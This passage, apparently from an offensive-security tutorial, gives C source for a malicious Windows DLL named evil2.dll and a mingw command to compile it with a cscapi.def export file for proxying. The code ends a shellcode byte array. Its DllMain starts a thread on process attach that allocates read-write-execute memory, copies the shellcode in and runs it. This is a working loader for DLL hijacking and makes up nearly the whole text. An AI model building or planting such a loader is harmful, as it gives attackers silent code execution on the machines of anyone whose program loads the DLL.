 ```cpp
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int payload_len = sizeof(payload);

// https://docs.microsoft.com/en-us/windows/win32/procthread/creating-threads
DWORD WINAPI run() {
  LPVOID memory;  // memory buffer for payload
  HANDLE pHandle; // proccess handle

  // get the current process handle
  pHandle = GetCurrentProcess();

  // allocate memory and set the read, write and execute flag
  memory = VirtualAllocEx(pHandle, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

  // copy the shellcode into the newly allocated memory
  WriteProcessMemory(pHandle, memory, (LPCVOID)&payload, payload_len, NULL);

  // if everything went well, we should now be able to execute the shellcode
  ((void(*)())memory)();

  return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
  HANDLE threadhandle;
  switch (fdwReason) {
    case DLL_PROCESS_ATTACH:
      // create a thread and run our function
      threadhandle = CreateThread(NULL, 0, run, NULL, 0, NULL);
      // close the thread handle
      CloseHandle(threadhandle);
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
      break;
    }
    return TRUE;
}

```

Let's go compile:
```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.c cscapi.def -s
```
